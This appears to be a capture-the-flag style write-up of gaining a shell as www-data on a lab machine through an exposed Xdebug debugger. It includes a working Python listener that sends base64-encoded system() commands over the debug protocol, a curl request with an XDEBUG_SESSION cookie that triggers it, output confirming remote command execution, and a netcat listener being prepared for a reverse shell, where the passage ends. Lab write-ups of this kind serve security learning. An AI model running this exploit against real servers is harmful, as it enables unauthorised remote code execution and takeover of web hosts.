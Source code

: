 This basically means that if we send a request to the server with the header `XDEBUG_SESSION`, what it will do is to start a debug session that by default occurs on port `9000` in which we will be able to execute commands at will.

# Shell as www-data

To test if all this works, lets create a file called `exploit.py` and write the following content:

```python
#!/usr/bin/env python3

import socket
import base64

sk = socket.socket()
sk.bind(('0.0.0.0', 9000))
sk.listen(10)

conn, addr = sk.accept()

while True:
    cmd = 'system("{}")'.format(input('>> ')).encode('utf-8')
    conn.sendall(('eval -i 1 -- %s\x00' % base64.b64encode(cmd).decode('utf-8')).encode('utf-8'))
```

What this script does is to listen on port 9000 for a new connection, when it receives a connection it waits for the user input and creates a payload that it sends to execute the command in a shell.

You can find the original post in this [Link](https://github.com/nqxcode/xdebug-exploit/blob/master/exploit_shell.py), the version above is just a modification from python2 to python3.

Perfect, now in a terminal we execute the script with the command `python3 exploit.py` and in another terminal, we have to send a request to the web with the cookie of `XDEBUG_SESSION`.

```bash
$ python3 exploit.py
>> id
>> 
```
{: .nolineno }

```bash
$ curl http://10.129.197.77 -H "Cookie: XDEBUG_SESSION=v3herocks"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
{: .nolineno }

As we can see, the command has been executed and we have the output in the other window, now that we know that we can execute commands, let's get a reverse shell, but first we have to open a `nc` waiting for connection, for this we open another terminal and write:

```bash
$ nc -lvnp 1337
listening on [any] 1337 ...
```
{: .nolineno }
